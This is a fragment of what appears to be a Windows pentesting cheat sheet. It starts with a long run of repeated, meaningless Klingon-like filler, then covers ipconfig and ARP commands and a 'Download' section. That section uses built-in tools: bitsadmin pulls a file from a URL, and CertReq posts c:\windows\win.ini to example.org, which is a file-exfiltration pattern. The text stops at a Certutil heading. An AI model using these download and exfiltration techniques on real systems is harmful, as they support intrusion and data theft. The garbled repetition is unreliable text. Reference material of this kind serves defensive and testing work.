DaH jatlhlaHbe'chugh. 'ej DaH jatlhlaHbe'chugh. 'ej DaH jatlhlaHbe'chugh. 'ej DaH jatlhlaHbe'chugh. 'ej DaH jatlhlaHbe'chugh. 'ej DaH jatlhlaHbe'chugh. 'ej DaH jatlhlaHbe'chugh. 'ej DaH jatlhlaHbe'chugh. 'ej DaH jatlhlaHbe'chugh. 'ej DaH jatlhlaHbe'chugh. 'ej DaH jatlhlaHbe'chugh. 'ej DaH jatlhlaHbe'chugh. 'ej DaH jatlhlaHbe'chugh. 'ej DaH jatlhlaHbe'chugh. 'ej DaH jatlhlaHbe'chugh. 'ej DaH jatlhlaHbe'chugh. 'ej DaH jatlhlaHbe'chugh. 'ej DaH jatlhlaHbe'chugh. 'ej DaH jatlhlaHbe'chugh. 'ej DaH jatlhlaHbe'chugh. 'ej DaH jatlhlaHbe'chugh. 'ej DaH jatlhlaHbe'chugh. 'ej DaH jatlhlaHbe'chugh. 'ej DaH jatlhlaHbe'chugh. 'ej DaH jatlhlaHbe'chugh. 'ej DaH jatlhlaHbe'chugh. 'ej DaH jatlhlaHbe'chugh. 'ej DaH jatlhlaHbe'chugh. 'ej DaH jatlhlaHbe'chugh. 'ej DaH jatlhlaHbe'chugh. 'ej DaH jatlhlaHbe'chugh. 'ej DaH jatlhlaHbe'chugh. 'ej DaH jatlhlaHbe'chugh. 'ej DaH jatlhlaHbe'chugh. 'ej DaH jatlhlaHbe'chugh. 'ej DaH jatlhlaHbe'chugh. 'ej DaH jatlhlaHbe'chugh. 'ej DaH jatlhlaHbe'chugh. 'ej DaH jatlhlaHbe'chugh. 'ej DaH jatlhlaHbe'chugh. 'ej DaH jatlhlaHbe'chugh. 'ej DaH jatlhlaHbe'chugh. 'ej DaH jatlhlaHbe'chugh. 'ej DaH jatlhlaHbe'chugh. 'ej DaH jatlhlaHbe'chugh. 'ej DaH jatlhlaHbe'chugh. 'ej DaH jatlhlaHbe'chugh. 'ej DaH jatlhlaHbe'chugh. 'ej DaH jatlhlaHbe'chugh. 'ej DaH jatlhlaHbe'chugh. 'ej DaH jatlhlaHbe'chugh. 'ej DaH jatlhlaH
```bash
ipconfig /all
```
### ARP jatlh

The Address Resolution Protocol (ARP) is a protocol used to map an IP address to a physical MAC address on a local network. The ARP table, also known as the ARP cache, is a table that stores the mappings between IP addresses and MAC addresses.

To view the ARP table on a Windows system, you can use the `arp` command in the command prompt. Here's how you can do it:

```plaintext
C:\> arp -a
```

This command will display the ARP table, showing the IP addresses and corresponding MAC addresses of the devices on the local network.

It's important to note that the ARP table can be manipulated by attackers to perform ARP spoofing attacks, where they impersonate other devices on the network. Therefore, it's crucial to regularly monitor the ARP table and be aware of any suspicious entries.
```bash
arp -A
```
## Download

Bitsadmin.exe
```
bitsadmin /create 1 bitsadmin /addfile 1 https://live.sysinternals.com/autoruns.exe c:\data\playfolder\autoruns.exe bitsadmin /RESUME 1 bitsadmin /complete 1
```
CertReq.exe is a command-line tool used for certificate enrollment and management in Windows operating systems. It allows users to create certificate requests, submit them to a certification authority (CA), and retrieve issued certificates. CertReq.exe supports various operations such as generating key pairs, creating certificate signing requests (CSRs), and installing certificates. It is commonly used by system administrators and security professionals for managing digital certificates in Windows environments.
```
CertReq -Post -config https://example.org/ c:\windows\win.ini output.txt
```
# Certutil.exe
